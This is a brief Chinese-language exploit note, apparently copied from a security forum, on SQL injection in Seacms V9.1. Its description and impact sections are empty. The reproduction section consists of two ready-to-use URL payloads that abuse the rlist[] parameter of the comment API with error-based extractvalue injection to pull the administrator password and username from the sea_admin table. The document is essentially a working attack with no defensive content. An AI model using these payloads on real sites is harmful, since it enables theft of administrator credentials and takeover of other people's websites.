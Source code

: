 # Seacms V9.1 版本SQL注入

> 原文：[https://www.zhihuifly.com/t/topic/3117](https://www.zhihuifly.com/t/topic/3117)

# Seacms V9.1 版本SQL注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> 获取管理员表中第一个用户的密码

```
http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20(password)from%20sea_admin))),@`%27` 
```

> 获取管理员表中第一个用户的账号

```
http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20(name)from%20sea_admin))),@`%27` 
```